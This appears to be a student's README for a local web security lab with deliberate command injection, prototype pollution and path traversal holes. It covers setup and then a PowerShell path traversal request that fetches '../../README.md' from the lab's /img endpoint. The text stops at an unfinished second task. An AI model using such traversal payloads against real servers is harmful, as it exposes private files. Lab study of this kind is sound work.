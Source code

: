 # Web Security Lab - Notes

# Setup

1. Install Node.js.
2. `cd` into the `src` folder, and run `npm install`.
3. Run `node app.js`.
4. Go to `http://localhost:80` in your browser.

Alternatively, you can use Docker:

    docker-compose up -d
    open http://127.0.0.1:8083/

# Experiments

These challenges have three vulnerabilities: OS command injection, prototype pollution and path traversal. Your task is to find out what you can do with these vulnerabilities.


# Tasks 1-4:
To make the following requests, I build HTTP Requests using Powershell's Invoke-WebRequest and its associated 

1. Path Traversal Exploit:

   ```PowerShell
   $postParams = @{id="../../README.md"}
   Invoke-WebRequest -Uri http://localhost:80/img -Method GET -Body $postParams
   ```
   This example specifically hits this README, but you can use this to access further files on the user's system.

2. d